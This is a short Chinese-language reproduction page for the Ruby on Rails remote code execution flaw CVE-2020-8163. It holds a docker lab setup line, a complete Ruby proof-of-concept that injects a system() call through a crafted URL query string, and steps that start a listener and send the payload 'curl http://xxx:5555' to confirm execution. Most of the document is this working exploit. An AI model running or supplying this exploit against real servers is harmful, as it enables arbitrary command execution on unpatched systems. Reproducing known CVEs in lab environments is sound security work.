

# Ruby on Rails RCE（CVE-2020-8163）

## 环境搭建

```
docker-compose up -d
```

## Poc

```
require 'net/http'

def header
  puts "[*] - CVE-2020-8163 - Remote code execution of user-provided local names in Rails < 5.0.1\n" 
  puts "[*] - Usage: \n"
  puts "ruby exploit.rb <url> <payload>"
  puts "ruby exploit.rb http://localhost/test \"uname -a\""
end
if ARGV.length < 2
  header
  exit(-1)
end

url  	= ARGV[0]
payload = ARGV[1]


puts "[*] Sending payload to #{url}"
uri = URI(url+"?[system(%27#{payload}%27)end%00]")
puts uri
res = Net::HTTP.get_response(uri)

if res.body['true'] and res.code['200']
	puts "[*] Succesful RCE"
else
	puts "could not execute command"
end
```

## 复现

- 起一个http服务器

```
python -m SimpleHTTPServer 5555
```

- 执行Poc

```
ruby exploit.rb http://xxx:3000/main/index "curl http://xxx:5555"
```


